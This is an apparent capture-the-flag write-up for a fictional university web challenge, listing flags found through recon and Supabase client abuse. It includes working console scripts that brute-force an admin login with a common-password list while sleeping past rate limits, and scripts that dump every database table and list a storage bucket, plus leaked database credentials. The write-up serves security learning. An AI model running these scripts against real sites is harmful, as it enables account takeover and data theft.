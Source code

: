 ```yaml
---
ai_date: '2025-04-27 05:21:17'
ai_summary: 'Found vulnerabilities: XSS, SQL Injection, and Stored XSS in JavaScript,
  as well as email enumeration and admin credentials exploitation.'
ai_tags:
- xss
- sql
- stored-xss
created: 2024-12-09T15:10
points: 450
updated: 2024-12-15T08:05
---
```


## Basics

With just some basic digging we can find two flags.

```txt [robots.txt]
User-agent: *
Disallow: /api/
Disallow: /super-private-do-not-enter/
Allow: /
```

### flag 1

```flag
flag::easy::456e4cf23533dafd6533c4d24d2599adb5e72583
```

```js [page-4b9910aed5976f5d.js]
l.jsx)("div", {
	className: "hidden",
	children: "flag::easy::aecd9d79901a1251f845897b310c74b7e71d2531"
})]
```

### flag 2

```flag
flag::easy::aecd9d79901a1251f845897b310c74b7e71d2531
```

## Allow Signup
Signup doesn't work sadly, even after I patched it to allow any email.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733775042/2024/12/e546bc49ddf87b2d0b2218878c391215.png)

## Leak App

By overriding the source JavaScript, we can leak the variables used in those functions.

At the same time, we also remove the scope on `select *`, maybe it will review more information.

```js [page-4b9910aed5976f5d.js]
(async function() {
	let {data: e, error: s} = await c.from("bulletins").select("*");
	console.log("Database:", c);
	console.log("Bulletin Data:", e);
	s ? console.error("Error fetching bulletins:", s) : t(e)
})()
```

### flag 3
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733940127/2024/12/c6d4d63d6af3690db7882c3a2edd94a2.png)

```flag
flag::easy::68e4b805974b53e322e52382e5ce387d1b13f325
```

### Storage Leak
We can see that there is a storage bucket named `university-news`, let's leak it.

```js
let {title: t, children: s, imagePath: i, date: a} = e
  , {data: r} = n().storage.from("university-news").getPublicUrl(i);
```

```js [console]
const {data:files}=await temp1.storage.from("university-news").list('',{
limit: 100,
offset: 0
});
const urls = files.map(e=>temp1.storage.from("university-news").getPublicUrl(e.name).data.publicUrl);
[
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/ancient.webp",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/cthulhu.webp",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/herbert-west.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/README%20(1).md",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/README.md",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/squid.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/student-campus.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/symposium.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/university-front.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/wireframe.jpg"
]
```

## Storage Info
We find this inside `README.md` and `README (1).md`.

```
connect to ap-southeast-2 ec2
connect to db postgres.kwhiugfxfqtfldzjaunl on ap-southeast-2 pooler using password "allhailcthulhuthegreatdreamer"

connect to ap-southeast-2 ec2
connect to db as cultist on project kwhiugfxfqtfldzjaunl on ap-southeast-2 pooler using password "allhailcthulhuthegreatdreamer"
```

Welp, can't connect to them due to IP restrictions.

## Signup Attempt 2

Ok, since sign up via UI doesn't work, I shall just call the methods directly.

```js [console]
console.log(await temp2.auth.signUp({
  email: 'me@gmail.com',
  password: 'password',
}));
```

Huh it works, I got an email and can login now.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733940850/2024/12/30a1e0c964e8b646d241e724c1e900be.png)
### flag 4

```flag
flag::easy::4a7314c446cfb28b31118bc606a82627ac18779e
```

## Sign In as Admin

On the site we can find a email `herbert.west@miskatonicuniversity.us`, let's try to login as that with 10k passwords.

```js [console]
const passwords = (await fetch("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10k-most-common.txt").then(r=>r.text())).split("\n");
const sleep = ms => new Promise(r => setTimeout(r, ms));
for(let i=0;i<passwords.length;){
    console.log("trying",i);
    const {data, error}=await temp1.auth.signInWithPassword({email:"herbert.west@miskatonicuniversity.us", password:passwords[i]});
    if(error) {
        if(error.message==="Request rate limit reached"){
            await sleep(500);
            continue
        } else {i++;continue}
    }
    console.log("yay",data)
    break;
}
```

## Leak all Tables

```js [console]
const tables = (await temp1.schema("information_schema").from("tables").select("*")).data;
for(let table of tables){
    const {data, error} = await temp1.schema(table.table_schema).from(table.table_name).select("*");
    if(error)continue;
    console.log("======",table.table_schema,".",table.table_name,"=======");
    console.table(data);
}
```

### `public.staff`

| (index) | id  | first_name  | last_name  | email                                                          |
| ------- | --- | ----------- | ---------- | -------------------------------------------------------------- |
| 0       | 1   | 'Herbert'   | 'West'     | 'herbert.west@miskatonicuniversity.us'                         |
| 1       | 2   | 'Henry'     | 'Armitage' | 'henry.armitage@miskatonicuniversity.us'                       |
| 2       | 3   | 'Ferdinand' | 'Ashley'   | 'ferdinand.ashley@miskatonicuniversity.us'                     |
| 3       | 4   | 'Allen'     | 'Halsey'   | 'allen.halsey@miskatonicuniversity.us'                         |
| 4       | 5   | 'Albert'    | 'Wilmarth' | `flag::intermediate::602c6d77e8294687ceb9608f3df5d2f89adc31ae` |

### flag 5

```flag
flag::intermediate::602c6d77e8294687ceb9608f3df5d2f89adc31ae
```

## DNS
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734027236/2024/12/9bdc4713e9ba3ff531554d9a4ec01d69.png)
### flag 6

```flag
flag::easy::2c4452b6c23b2be707fcab43689ec06b7a91b6a5
```

## Wayback Machine

[web.archive.org/cdx/search/cdx?url=*.miskatonicuniversity.us&output=text&fl=original&collapse=urlkey](https://web.archive.org/cdx/search/cdx?url=*.miskatonicuniversity.us&output=text&fl=original&collapse=urlkey)

```
...
https://miskatonicuniversity.us/api/
https://miskatonicuniversity.us/atom.xml
https://miskatonicuniversity.us/even-more-super-private-do-not-enter
https://miskatonicuniversity.us/favicon.ico
https://miskatonicuniversity.us/feed/
https://miskatonicuniversity.us/feeds/all.atom.xml
...
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734028108/2024/12/e017289da9023035a9e61331ac7f053c.png)

### flag 7

```flag
flag::intermediate::f49ae1ae7e56e8982fd0bb6ffc16c0f3d23a81b3
```
